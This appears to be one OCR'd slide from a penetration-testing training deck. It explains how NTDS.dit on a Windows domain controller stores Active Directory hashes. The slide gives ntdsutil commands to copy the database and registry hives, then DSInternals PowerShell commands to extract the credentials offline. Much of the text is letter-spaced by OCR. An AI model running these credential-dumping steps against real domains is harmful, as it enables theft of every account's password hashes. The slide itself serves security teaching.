

# DUMPING NTDS (1)
NT Directory Service (NTDS) is used by Microsoft Windows to manage resources. NTDS.dit
file is located in domain controllers, and it stores AD data like users, groups and hashes.

NTDSUtil.exe is a management and maintenance tool for Active Directory that has the
capability to take snapshots of AD data.
W i t h a d m i n p r i v i l e g e w e c a n u s e	N T D S U t i l , t o g e t c o p y o f	N T D S . d i t d a t a b a s e , S Y S T E M a n d
S E C U R I T Y h i v e s :
n t d s u t i l " a c t i v a t e i n s t a n c e n t d s " " ifm " " c r e a t e f u l l C : \ t m p \ N T D S " q u i t q u i t

T h e n w e c a n d u m p t h e c r e d e n t i a l s o f f l i n e u s i n g D S I n t e r n a l s P o w e r s h e l l M o d u l e : I n s t a l l - M o d u l e D S I n t e r n a l s - F o r c e
I m p o r t - M o d u l e D S I n t e r n a l s
$ k e y = G e t - B o o t K e y - S y s t e m H i v e P a t h ' C : \ t m p \ N T D S \ r e g i s t r y \ S Y S T E M '
G e t - A D D B A c c o u n t - A l l - D B P a t h ' C : \ t m p \ N T D S \ A c t i v e D i r e c t o r y \ n t d s . d i t ' - b o o t k e y $ k e y
126